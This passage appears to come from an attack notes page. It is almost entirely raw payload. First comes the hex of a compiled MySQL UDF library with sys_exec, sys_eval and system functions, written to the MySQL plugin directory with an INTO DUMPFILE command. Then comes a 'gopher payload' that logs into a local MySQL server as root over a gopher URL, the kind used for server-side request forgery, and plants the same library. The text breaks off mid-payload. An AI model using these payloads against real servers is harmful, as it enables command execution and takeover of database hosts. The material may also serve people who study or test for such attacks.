15b415cc9c3660f1f8400000000005548833dbf072000004889e57422488b05530920004885c07416488d3da70720004989c3c941ffe30f1f840000000000c9c39090c3c3c3c331c0c3c341544883c9ff4989f455534883ec10488b4610488b3831c0f2ae48f7d1488d69ffe8b6feffff83f80089c77c61754fbf1e000000e803feffff488d70ff4531c94531c031ffb921000000ba07000000488d042e48f7d64821c6e8aefeffff4883f8ff4889c37427498b4424104889ea4889df488b30e852feffffffd3eb0cba0100000031f6e802feffff31c0eb05b8010000005a595b5d415cc34157bf00040000415641554531ed415455534889f34883ec1848894c24104c89442408e85afdffffbf010000004989c6e84dfdffffc600004889c5488b4310488d356a030000488b38e814feffff4989c7eb374c89f731c04883c9fff2ae4889ef48f7d1488d59ff4d8d641d004c89e6e8ddfdffff4a8d3c284889da4c89f64d89e54889c5e8a8fdffff4c89fabe080000004c89f7e818fdffff4885c075b44c89ffe82bfdffff807d0000750a488b442408c60001eb1f42c6442dff0031c04883c9ff4889eff2ae488b44241048f7d148ffc94889084883c4184889e85b5d415c415d415e415fc34883ec08833e014889d7750b488b460831d2833800740e488d353a020000e817fdffffb20188d05ec34883ec08833e014889d7750b488b460831d2833800740e488d3511020000e8eefcffffb20188d05fc3554889fd534889d34883ec08833e027409488d3519020000eb3f488b46088338007409488d3526020000eb2dc7400400000000488b4618488b384883c70248037808e801fcffff31d24885c0488945107511488d351f0200004889dfe887fcffffb20141585b88d05dc34883ec08833e014889f94889d77510488b46088338007507c6010131c0eb0e488d3576010000e853fcffffb0014159c34154488d35ef0100004989cc4889d7534889d34883ec08e832fcffff49c704241e0000004889d8415a5b415cc34883ec0831c0833e004889d7740e488d35d5010000e807fcffffb001415bc34883ec08488b4610488b38e862fbffff5a4898c34883ec28488b46184c8b4f104989f2488b08488b46104c89cf488b004d8d4409014889c6f3a44c89c7498b4218488b0041c6040100498b4210498b5218488b4008488b4a08ba010000004889c6f3a44c89c64c89cf498b4218488b400841c6040000e867fbffff4883c4284898c3488b7f104885ff7405e912fbffffc3554889cd534c89c34883ec08488b4610488b38e849fbffff4885c04889c27505c60301eb1531c04883c9ff4889d7f2ae48f7d148ffc948894d00595b4889d05dc39090909090909090554889e5534883ec08488b05c80320004883f8ff7419488d1dbb0320000f1f004883eb08ffd0488b034883f8ff75f14883c4085bc9c390904883ec08e86ffbffff4883c408c345787065637465642065786163746c79206f6e6520737472696e67207479706520706172616d657465720045787065637465642065786163746c792074776f20617267756d656e747300457870656374656420737472696e67207479706520666f72206e616d6520706172616d6574657200436f756c64206e6f7420616c6c6f63617465206d656d6f7279006c69625f6d7973716c7564665f7379732076657273696f6e20302e302e34004e6f20617267756d656e747320616c6c6f77656420287564663a206c69625f6d7973716c7564665f7379735f696e666f290000011b033b980000001200000040fbffffb400000041fbffffcc00000042fbffffe400000043fbfffffc00000044fbffff1401000047fbffff2c01000048fbffff44010000e2fbffff6c010000cafcffffa4010000f3fcffffbc0100001cfdffffd401000086fdfffff4010000b6fdffff0c020000e3fdffff2c02000002feffff4402000016feffff5c02000084feffff7402000093feffff8c0200001400000000000000017a5200017810011b0c070890010000140000001c00000084faffff01000000000000000000000014000000340000006dfaffff010000000000000000000000140000004c00000056faffff01000000000000000000000014000000640000003ffaffff010000000000000000000000140000007c00000028faffff030000000000000000000000140000009400000013faffff01000000000000000000000024000000ac000000fcf9ffff9a00000000420e108c02480e18410e20440e3083048603000000000034000000d40000006efaffffe800000000420e10470e18420e208d048e038f02450e28410e30410e38830786068c05470e50000000000000140000000c0100001efbffff2900000000440e100000000014000000240100002ffbffff2900000000440e10000000001c0000003c01000040fbffff6a00000000410e108602440e188303470e200000140000005c0100008afbffff3000000000440e10000000001c00000074010000a2fbffff2d00000000420e108c024e0e188303470e2000001400000094010000affbffff1f00000000440e100000000014000000ac010000b6fbffff1400000000440e100000000014000000c4010000b2fbffff6e00000000440e300000000014000000dc01000008fcffff0f00000000000000000000001c000000f4010000fffbffff4100000000410e108602440e188303470e2000000000000000000000ffffffffffffffff0000000000000000ffffffffffffffff000000000000000000000000000000000100000000000000b2010000000000000c00000000000000a00b0000000000000d00000000000000781100000000000004000000000000005801000000000000f5feff6f00000000a00200000000000005000000000000006807000000000000060000000000000060030000000000000a00000000000000e0010000000000000b0000000000000018000000000000000300000000000000e81620000000000002000000000000008001000000000000140000000000000007000000000000001700000000000000200a0000000000000700000000000000c0090000000000000800000000000000600000000000000009000000000000001800000000000000feffff6f00000000a009000000000000ffffff6f000000000100000000000000f0ffff6f000000004809000000000000f9ffff6f0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000401520000000000000000000000000000000000000000000ce0b000000000000de0b000000000000ee0b000000000000fe0b0000000000000e0c0000000000001e0c0000000000002e0c0000000000003e0c0000000000004e0c0000000000005e0c0000000000006e0c0000000000007e0c0000000000008e0c0000000000009e0c000000000000ae0c000000000000be0c0000000000008017200000000000004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200002e7368737472746162002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e63746f7273002e64746f7273002e6a6372002e64796e616d6963002e676f74002e676f742e706c74002e64617461002e627373002e636f6d6d656e7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f0000000500000002000000000000005801000000000000580100000000000048010000000000000300000000000000080000000000000004000000000000000b000000f6ffff6f0200000000000000a002000000000000a002000000000000c000000000000000030000000000000008000000000000000000000000000000150000000b00000002000000000000006003000000000000600300000000000008040000000000000400000002000000080000000000000018000000000000001d00000003000000020000000000000068070000000000006807000000000000e00100000000000000000000000000000100000000000000000000000000000025000000ffffff6f020000000000000048090000000000004809000000000000560000000000000003000000000000000200000000000000020000000000000032000000feffff6f0200000000000000a009000000000000a009000000000000200000000000000004000000010000000800000000000000000000000000000041000000040000000200000000000000c009000000000000c00900000000000060000000000000000300000000000000080000000000000018000000000000004b000000040000000200000000000000200a000000000000200a0000000000008001000000000000030000000a0000000800000000000000180000000000000055000000010000000600000000000000a00b000000000000a00b000000000000180000000000000000000000000000000400000000000000000000000000000050000000010000000600000000000000b80b000000000000b80b00000000000010010000000000000000000000000000040000000000000010000000000000005b000000010000000600000000000000d00c000000000000d00c000000000000a80400000000000000000000000000001000000000000000000000000000000061000000010000000600000000000000781100000000000078110000000000000e000000000000000000000000000000040000000000000000000000000000006700000001000000320000000000000086110000000000008611000000000000dd000000000000000000000000000000010000000000000001000000000000006f000000010000000200000000000000641200000000000064120000000000009c000000000000000000000000000000040000000000000000000000000000007d000000010000000200000000000000001300000000000000130000000000001402000000000000000000000000000008000000000000000000000000000000870000000100000003000000000000001815200000000000181500000000000010000000000000000000000000000000080000000000000000000000000000008e000000010000000300000000000000281520000000000028150000000000001000000000000000000000000000000008000000000000000000000000000000950000000100000003000000000000003815200000000000381500000000000008000000000000000000000000000000080000000000000000000000000000009a000000060000000300000000000000401520000000000040150000000000009001000000000000040000000000000008000000000000001000000000000000a3000000010000000300000000000000d016200000000000d0160000000000001800000000000000000000000000000008000000000000000800000000000000a8000000010000000300000000000000e816200000000000e8160000000000009800000000000000000000000000000008000000000000000800000000000000b1000000010000000300000000000000801720000000000080170000000000000800000000000000000000000000000008000000000000000000000000000000b7000000080000000300000000000000881720000000000088170000000000001000000000000000000000000000000008000000000000000000000000000000bc000000010000000000000000000000000000000000000088170000000000009b000000000000000000000000000000010000000000000000000000000000000100000003000000000000000000000000000000000000002318000000000000c500000000000000000000000000000001000000000000000000000000000000 INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';"
```

gopher payload

```
gopher://127.0.0.1:3306/_%3c%00%00%01%05%a2%0f%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%07%3f%00%00%03%53%45%4c%45%43%54%20%30%78%37%66%34%35%34%63%34%36%30%32%30%31%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%33%65%30%30%30%31%30%30%30%30%30%30%64%30%30%63%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%65%38%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%33%38%30%30%30%35%30%30%34%30%30%30%31%61%30%30%31%39%30%30%30%31%30%30%30%30%30%30%30%35%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%31%35%30%30%30%30%30%30%30%30%30%30%30%30%31%34%31%35%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%36%30%30%30%30%30%30%31%38%31%35%30%30%30%30%30%30%30%30%30%30%30%30%31%38%31%35%32%30%30%30%30%30%30%30%30%30%30%30%31%38%31%35%32%30%30%30%30%30%30%30%30%30%30%30%37%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%36%30%30%30%30%30%30%34%30%31%35%30%30%30%30%30%30%30%30%30%30%30%30%34%30%31%35%32%30%30%30%30%30%30%30%30%30%30%30%34%30%31%35%32%30%30%30%30%30%30%30%30%30%30%30%39%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%39%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%30%65%35%37%34%36%34%30%34%30%30%30%30%30%30%36%34%31%32%30%30%30%30%30%30%30%30%30%30%30%30%36%34%31%32%30%30%30%30%30%30%30%30%30%30%30%30%36%34%31%32%30%30%30%30%30%30%30%30%30%30%30%30%39%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%39%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%31%65%35%37%34%36%34%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%35%30%30%30%30%30%30%32%62%30%30%30%30%30%30%31%35%30%30%30%30%30%30%30%35%30%30%30%30%30%30%32%38%30%30%30%30%30%30%31%65%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%32%61%30%30%30%30%30%30%30%39%30%30%30%30%30%30%32%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%37%30%30%30%30%30%30%30%62%30%30%30%30%30%30%32%32%30%30%30%30%30%30%31%38%30%30%30%30%30%30%32%34%30%30%30%30%30%30%30%65%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%31%64%30%30%30%30%30%30%31%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%32%30%30%30%30%30%30%32%33%30%30%30%30%30%30%31%30%30%30%30%30%30%30%32%35%30%30%30%30%30%30%31%61%30%30%30%30%30%30%30%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%62%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%39%30%30%30%30%30%30%31%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%39%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%30%30%30%30%31%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%30%30%30%30%30%30%32%36%30%30%30%30%30%30%31%37%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%66%30%30%30%30%30%30%31%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%31%30%30%30%30%30%30%31%34%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%37%30%30%30%30%30%30%38%30%30%38%30%33%34%39%39%31%31%39%63%34%63%39%33%64%61%34%34%30%30%33%39%38%30%34%36%38%38%33%31%34%30%30%30%30%30%30%31%36%30%30%30%30%30%30%31%37%30%30%30%30%30%30%31%39%30%30%30%30%30%30%31%62%30%30%30%30%30%30%31%64%30%30%30%30%30%30%32%30%30%30%30%30%30%30%32%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%34%30%30%30%30%30%30%32%35%30%30%30%30%30%30%32%37%30%30%30%30%30%30%32%39%30%30%30%30%30%30%32%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%65%32%63%63%30%62%61%36%37%33%63%37%36%39%30%65%62%64%33%65%66%30%65%37%38%37%32%32%37%38%38%62%39%38%64%66%31%30%65%64%38%37%31%35%38%31%63%63%31%65%32%66%37%64%65%61%38%36%38%62%65%31%32%62%62%65%33%39%32%37%63%37%65%38%62%39%32%63%64%31%65%37%30%36%36%61%39%63%33%66%39%62%66%62%61%37%34%35%62%62%30%37%33%33%37%31%39%37%34%65%63%34%33%34%35%64%35%65%63%63%35%61%36%32%63%31%63%63%33%31%33%38%61%66%66%33%36%61%63%36%38%61%65%33%62%39%66%64%34%61%30%61%63%37%33%64%31%63%35%32%35%36%38%31%62%33%32%30%62%35%39%31%31%66%65%61%62%35%66%62%65%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%39%30%30%61%30%30%62%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%35%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%65%30%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%65%30%31%30%30%30%30%30%30%30%30%30%30%30%30%37%39%30%31%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%37%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%61%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%35%30%34%30%30%30%30%30%30%30%30%30%30%30%30%66%35%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%32%30%31%30%30%30%30%30%30%30%30%30%30%30%30%39%65%30%31%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%39%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%62%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%36%30%30%30%30%30%30%32%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%65%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%66%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%64%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%38%30%31%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%62%30%31%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%35%30%31%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%31%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%37%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%35%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%63%30%32%30%30%30%30%30%30%30%30%30%30%30%30%65%64%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%65%38%30%32%30%30%30%30%30%30%30%30%30%30%30%30%65%37%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%39%62%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%32%30%30%30%30%30%30%31%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%31%30%30%30%30%31%32%30%30%30%62%30%30%37%61%31%30%30%30%30%30%30%30%30%30%30%30%30%30%36%65%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%35%30%30%30%30%30%30%31%32%30%30%30%62%30%30%61%37%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%31%32%30%30%30%63%30%30%37%38%31%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%66%30%31%30%30%30%30%31%32%30%30%30%62%30%30%31%61%31%30%30%30%30%30%30%30%30%30%30%30%30%30%32%64%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%66%30%31%30%30%30%30%31%32%30%30%30%39%30%30%61%30%30%62%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%33%30%31%30%30%30%30%31%30%30%30%66%31%66%66%38%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%39%36%30%30%30%30%30%30%31%32%30%30%30%62%30%30%61%62%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%31%30%30%30%30%31%32%30%30%30%62%30%30%36%36%31%30%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%66%30%31%30%30%30%30%31%30%30%30%66%31%66%66%39%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%36%30%30%30%30%30%30%31%32%30%30%30%62%30%30%61%35%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%31%30%30%30%30%31%32%30%30%30%62%30%30%32%65%30%66%30%30%30%30%30%30%30%30%30%30%30%30%32%39%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%33%30%31%30%30%30%30%31%32%30%30%30%62%30%30%66%37%31%30%30%30%30%30%30%30%30%30%30%30%30%30%34%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%39%30%30%30%30%30%30%31%32%30%30%30%62%30%30%61%34%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%32%30%31%30%30%30%30%31%32%30%30%30%62%30%30%65%61%30%66%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%63%30%31%30%30%30%30%31%30%30%30%66%31%66%66%38%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%35%30%30%30%30%30%30%31%32%30%30%30%62%30%30%61%36%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%35%30%31%30%30%30%30%31%32%30%30%30%62%30%30%38%30%30%66%30%30%30%30%30%30%30%30%30%30%30%30%36%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%35%30%30%30%30%30%30%31%32%30%30%30%62%30%30%61%38%30%64%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%37%30%31%30%30%30%30%31%32%30%30%30%62%30%30%35%37%30%66%30%30%30%30%30%30%30%30%30%30%30%30%32%39%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%35%30%31%30%30%30%30%31%32%30%30%30%62%30%30%34%37%31%30%30%30%30%30%30%30%30%30%30%30%30%30%31%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%39%30%30%30%30%30%30%31%32%30%30%30%62%30%30%61%63%30%64%30%30%30%30%30%30%30%30%30%30%30%30%39%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%66%30%31%30%30%30%30%31%32%30%30%30%62%30%30%65%38%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%37%30%30%30%30%30%30%31%32%30%30%30%62%30%30%34%36%30%65%30%30%30%30%30%30%30%30%30%30%30%30%65%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%66%35%66%36%37%36%64%36%66%36%65%35%66%37%33%37%34%36%31%37%32%37%34%35%66%35%66%30%30%35%66%36%36%36%39%36%65%36%39%30%30%35%66%35%66%36%33%37%38%36%31%35%66%36%36%36%39%36%65%36%31%36%63%36%39%37%61%36%35%30%30%35%66%34%61%37%36%35%66%35%32%36%35%36%37%36%39%37%33%37%34%36%35%37%32%34%33%36%63%36%31%37%33%37%33%36%35%37%33%30%30%36%63%36%39%36%32%35%66%36%64%37%39%37%33%37%31%36%63%37%35%36%34%36%36%35%66%37%33%37%39%37%33%35%66%36%39%36%65%36%36%36%66%35%66%36%34%36%35%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%37%36%35%37%34%35%66%36%34%36%35%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%35%37%38%36%35%36%33%35%66%36%34%36%35%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%35%37%36%36%31%36%63%35%66%36%34%36%35%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%32%36%39%36%65%36%35%37%36%36%31%36%63%35%66%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%32%36%39%36%65%36%35%37%36%36%31%36%63%35%66%36%34%36%35%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%32%36%39%36%65%36%35%37%36%36%31%36%63%30%30%36%36%36%66%37%32%36%62%30%30%37%33%37%39%37%33%36%33%36%66%36%65%36%36%30%30%36%64%36%64%36%31%37%30%30%30%37%33%37%34%37%32%36%65%36%33%37%30%37%39%30%30%37%37%36%31%36%39%37%34%37%30%36%39%36%34%30%30%37%33%37%39%37%33%35%66%36%35%37%36%36%31%36%63%30%30%36%64%36%31%36%63%36%63%36%66%36%33%30%30%37%30%36%66%37%30%36%35%36%65%30%30%37%32%36%35%36%31%36%63%36%63%36%66%36%33%30%30%36%36%36%37%36%35%37%34%37%33%30%30%37%30%36%33%36%63%36%66%37%33%36%35%30%30%37%33%37%39%37%33%35%66%36%35%37%36%36%31%36%63%35%66%36%39%36%65%36%39%37%34%30%30%37%33%37%34%37%32%36%33%37%30%37%39%30%30%37%33%37%39%37%33%35%66%36%35%37%38%36%35%36%33%35%66%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%37%33%36%35%37%34%35%66%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%37%36%35%37%34%35%66%36%39%36%65%36%39%37%34%30%30%36%63%36%39%36%32%35%66%36%64%37%39%37%33%37%31%36%63%37%35%36%34%36%36%35%66%37%33%37%39%37%33%35%66%36%39%36%65%36%36%36%66%30%30%36%63%36%39%36%32%35%66%36%64%37%39%37%33%37%31%36%63%37%35%36%34%36%36%35%66%37%33%37%39%37%33%35%66%36%39%36%65%36%36%36%66%35%66%36%39%36%65%36%39%37%34%30%30%37%33%37%39%37%33%35%66%36%35%37%38%36%35%36%33%30%30%37%33%37%39%37%33%37%34%36%35%36%64%30%30%37%33%37%39%37%33%35%66%37%33%36%35%37%34%30%30%37%33%36%35%37%34%36%35%36%65%37%36%30%30%37%33%37%39%37%33%35%66%37%33%36%35%37%34%35%66%36%34%36%35%36%39%36%65%36%39%37%34%30%30%36%36%37%32%36%35%36%35%30%30%37%33%37%39%37%33%35%66%36%37%36%35%37%34%30%30%36%37%36%35%37%34%36%35%36%65%37%36%30%30%36%63%36%39%36%32%36%33%32%65%37%33%36%66%32%65%33%36%30%30%35%66%36%35%36%34%36%31%37%34%36%31%30%30%35%66%35%66%36%32%37%33%37%33%35%66%37%33%37%34%36%31%37%32%37%34%30%30%35%66%36%35%36%65%36%34%30%30%34%37%34%63%34%39%34%32%34%33%35%66%33%32%32%65%33%32%32%65%33%35%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%32%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%31%30%30%30%30%30%30%30%31%30%30%30%31%30%30%62%32%30%31%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%35%31%61%36%39%30%39%30%30%30%30%30%32%30%30%64%34%30%31%30%30%30%30%30%30%30%30%30%30%30%30%38%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%64%30%31%36%32%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%38%31%36%32%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%65%30%31%36%32%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%35%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%30%37%